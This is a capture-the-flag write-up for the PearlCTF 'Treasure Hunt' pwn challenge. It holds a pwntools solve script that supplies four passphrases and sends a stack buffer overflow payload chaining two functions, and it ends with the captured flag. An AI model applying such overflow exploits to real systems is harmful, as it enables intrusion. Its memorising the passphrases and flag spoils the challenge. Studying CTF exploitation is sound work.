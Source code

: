 # Treasure Hunt

Are you worthy enough to get the treasure? Let's see...

https://pearlctf.in/files/treasurehunt.zip

nc treasure-hunt.ctf.pearlctf.in 30008


## solve
```
from pwn import *

#context.log_level = "debug"
elf = ELF("./vuln", checksec=False)
context.binary = elf

##p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("treasure-hunt.ctf.pearlctf.in", 30008)

p.sendlineafter(b"proceed: ", b"whisp3ring_w00ds")
p.sendlineafter(b"proceed: ", b"sc0rching_dunes")
p.sendlineafter(b"proceed: ", b"eldorian_ech0")
p.sendlineafter(b"proceed: ", b"shadow_4byss")

p.readuntil(b"win:- ")

payload = b""
payload += b"A" * 0x48
payload += p64(elf.sym["setEligibility"])
payload += p64(elf.sym["winTreasure"])
p.sendline(payload)

p.readuntil(b"GGs\n")

print(p.readuntil(b"}").decode())
```

## flag
`pearl{k33p_0n_r3turning_l0l}`